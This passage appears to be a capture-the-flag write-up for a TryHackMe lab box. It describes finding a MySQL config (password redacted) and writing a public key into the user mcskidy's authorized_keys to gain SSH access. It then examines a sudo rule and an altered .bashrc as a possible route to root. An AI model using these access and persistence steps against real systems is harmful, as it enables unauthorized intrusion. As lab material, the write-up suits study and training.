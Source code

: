 We also found the mysql root password:
```
commit 81fd2d250483a542bc5c50f9433c9d5188115022

MySQL configuration
app.config['MYSQL_HOST'] = 'localhost'
app.config['MYSQL_USER'] = 'root'
app.config['MYSQL_PASSWORD'] = '[REDACTED]'
app.config['MYSQL_DB'] = 'elfimages'
mysql = MySQL(app)
```

A team member figure out how to log into ssh using this [resource](https://steflan-security.com/linux-privilege-escalation-exploiting-misconfigured-ssh-keys/).

*On your VM:*
`ssh-keygen`  
`cat ~/.ssh/id_rsa.pub`  
*On the THM box:* 
`echo "CONTENT OF PREVIOUS FILE" >> /home/mcskidy/.ssh/authorized_keys` 
On your VM: 
`ssh mcskidy@BOX_IP`

This opens up port 8000 for experimenting.

We spent days combing through every file and trying any privsec technique we came across with no success at getting root. 2 files we found seemed like the pathway but we were having trouble figuring out how to use them.

/opt/check.sh
/opt/.bashrc

```
User mcskidy may run the following commands on proddb:
    (root) /usr/bin/bash /opt/check.sh
```
	
There is something odd in the beginning of the .bashrc file.
```
# ~/.bashrc: executed by bash(1) for non-login shells.
# see /usr/share/doc/bash/examples/startup-files (in the package bash-doc)
# for examples
enable -n [ # ]
# If not running interactively, don't do anything
case $- in
    *i*) ;;
      *) return;;
esac
```
And check.sh reads the .bashrc file.
```
#!/bin/bash
. /opt/.bashrc
cd /home/mcskidy/
```
